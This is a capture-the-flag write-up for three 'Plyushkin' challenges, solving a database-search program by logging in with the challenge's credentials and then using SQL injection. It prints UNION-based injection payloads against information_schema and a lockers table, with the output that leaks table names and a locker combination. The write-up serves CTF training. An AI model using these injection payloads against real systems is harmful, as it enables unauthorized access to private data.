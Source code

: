 ```yaml
---
layout: post
title:  "5Charlie CTF - Plyushkin"
date:   2020-06-26 00:00:00 -0500
categories: write-up
tags: [ctf, write-up, linux, database, hacking, sqli]
---
```


## Plyushkin 1

### Plyushkin 1 - Challenge

To access this challenge, ssh to plyushkin@haxor.5charlie.com using the attached private key.

Log in to the application with username: plyushkin and password: Petrushka12.

What fields are available to search? (arrange in alphabetical order in format: afield,bfield,cfield)

NOTE: Ignore these two lines in the program output:
Here's the clue you were supposed to get:
Bobert, put something useful or useless here
They aren't a hint, white cell just didn't feel like recompiling ;)

**Attachments:** `id_plyushkin` - SSH Key

### Plyushkin 1 - Solution

We start out by connecting to the application with the given credentials and giving a blank input.

``` text
Password: Connecting to database...
Creating table in given database...
Created table in given database...
Inserting records...
System ready
Field to search on:
Invalid field, please enter: id, first, last, or age
```

**Flag:** `age,first,id,last`

I noticed a lot of people complaining about it not taking the flag.
I actually failed on my first input too. We just need to read better:

> (arrange in alphabetical order in format: afield,bfield,cfield)

'age' comes before 'first'. Doh!

## Plyushkin 2

### Plyushkin 2 - Challenge

What is the name of the table this program was designed to query?

### Plyushkin 2 - Solution

We can guess based upon the fields in the previous challenge that we're evaluating some sort of employee records database.
We could probably guess-check our way to the answer, but after playing with different inputs, it appears the application is vulnerable to SQL injection.
We are able to pull the names of tables by using an SQL UNION and querying the database tables that store information about the tables in the database.

{% highlight sql %}
6' OR 1=1 UNION SELECT 0,table_schema,table_name,0 FROM information_schema.tables;--
{% endhighlight %}

``` text
Age: 0
ID: 0
First Name: PUBLIC
Last Name: LOCKERS
Age: 0
ID: 0

First Name: PUBLIC
Last Name: PERSONNEL
Age: 0
ID: 0
```

**Flag:** `PERSONNEL`

## Plyushkin 3

### Plyushkin 3 - Challenge

What is Nikolai Gogol's locker combination? (format: ##-##-##)

### Plyushkin 3 - Solution

Looking again at the previous question, we can note that we already have the info on the table we're targering.
At this point we just need to contruct an SQL injection query to pull the combination.

{% highlight sql %}
6' OR 1=1 UNION SELECT 0,combination,combination,0 FROM public.lockers;--
{% endhighlight %}

``` text
ID: 0
First Name: 18-44-9
Last Name: 18-44-9
Age: 0
ID: 6
First Name: Nikolai
Last Name: Gogol
Age: 26
```

**Flag:** `18-44-9`
